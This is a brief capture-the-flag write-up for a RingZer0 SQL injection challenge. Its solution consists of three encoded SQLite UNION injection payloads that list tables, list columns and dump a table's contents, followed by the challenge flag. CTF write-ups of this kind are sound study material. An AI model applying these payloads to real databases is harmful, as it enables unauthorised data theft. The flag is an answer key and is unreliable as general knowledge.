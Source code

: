 <h1>No more hacking for me!</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10074</p>
<h3>Solution</h3>
<p>Payload SQLite Injection</p>
<pre>
0%252527%20union%20all%20select%201,group_concat(COALESCE(name,%252527%252527), %252527||ROW||%252527),3%20FROM%20sqlite_master%20WHERE%20type=%252527table%252527%20--      = get table_name
0%252527%20union%20all%20select%201,group_concat(COALESCE(name,%252527%252527), %252527||ROW||%252527),3%20FROM%20pragma_table_info(%252527random_data%252527)%20--          = get column_name
0%252527%20union%20all%20select%201,group_concat(COALESCE(message,%252527%252527), %252527||ROW||%252527),3%20FROM%20random_data%20--                                        = get data
</pre>
<h3>Flag</h3>
<pre>
FLAG-ev72V7Q4a1DzYRw5fxT71GC815JE
</pre>
